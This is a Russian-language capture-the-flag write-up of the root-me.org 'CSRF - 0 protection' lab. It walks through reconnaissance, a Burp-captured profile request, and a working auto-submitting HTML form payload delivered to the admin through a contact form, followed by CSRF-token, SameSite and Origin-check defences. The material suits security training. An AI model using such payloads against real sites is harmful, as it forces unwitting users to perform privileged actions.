





## Lab: CSRF - 0 protection

**Платформа:** root-me.org
**Категория:** CSRF  
**Сложность:** Medium 
**Дата:** 2025-07-21  

---

## TL;DR
Форма обновления профиля уязвима к CSRF — нет токена защиты. Через форму обратной связи отправлен CSRF payload администратору. Когда админ открыл сообщение — форма автоматически отправилась от его имени и подтвердила аккаунт атакующего.

## Описание уязвимости
CSRF возможна когда есть привилегированное действие, аутентификация только через куки, и нет CSRF токена в форме.

Атакующий → CSRF payload в форме контакта
          ↓
Админ открывает сообщение
          ↓
Браузер автоматически отправляет форму с куками админа
          ↓
Сервер подтверждает аккаунт атакующего


## Разведка

### Шаг 1 - Регистрация
Зарегистрировала аккаунт (Username: user_1). В ответе сервера обнаружила SQL комментарии:

```sql
INSERT INTO membres (username, password, sessid_user, status_profile)
VALUES ('user_1', '...', '...', 0)
```
status_profile = 0 — не подтверждён. Для подтверждения нужны права админа.



### Шаг 2 - Форма профиля
После входа нашла форму обновления профиля:

```html
<form action="?action=profile" method="post">
    <input type="text" name="username" value="user_1">
    <input type="checkbox" name="status" disabled>
    <button>Submit</button>
</form>
```

Чекбокс status заблокирован (disabled). CSRF токена нет — форма уязвима.



### Шаг 2 - Перехват запроса в Burp.
POST запрос на обновление профиля:

```http
POST /web-client/ch22/index.php?action=profile HTTP/1.1
Host: challenge01.root-me.org
Cookie: PHPSESSID=...

username=user_1&status=on
```
Нет CSRF токена — запрос можно выполнить с любого сайта от имени авторизованного пользователя.


---

## Эксплуатация

### Шаг 1 - CSRF payload

```html
<html>
<body>
    <form action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile"
          method="POST">
        <input type="hidden" name="username" value="user_1" />
        <input type="hidden" name="status" value="on" />
    </form>
    <script>document.forms[0].submit();</script>
</body>
</html>
```
status=on — чекбоксы отправляют "on" когда отмечены. submit() — автоматическая отправка без клика.

### Шаг 2 - Отправка администратору
Нашла форму обратной связи (?action=contact). Вставила CSRF payload в поле сообщения и отправила.



### Шаг 5 — Результат 
Когда администратор открыл сообщение — JavaScript выполнил submit(), форма отправилась с куками админа, статус аккаунта user_1 обновился. Аккаунт подтверждён, получен код.



---

### Защита

```php
// CSRF токен в форме (PHP):
$token = bin2hex(random_bytes(32));
$_SESSION['csrf_token'] = $token;

<input type="hidden" name="csrf_token" value="<?= $token ?>">

// Проверка на сервере:
if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die('CSRF token mismatch');
}
```

Дополнительно: 
SameSite=Strict на сессионных куках. Проверка заголовка Origin на сервере. Не раскрывать SQL запросы в HTML комментариях — они помогли понять структуру БД.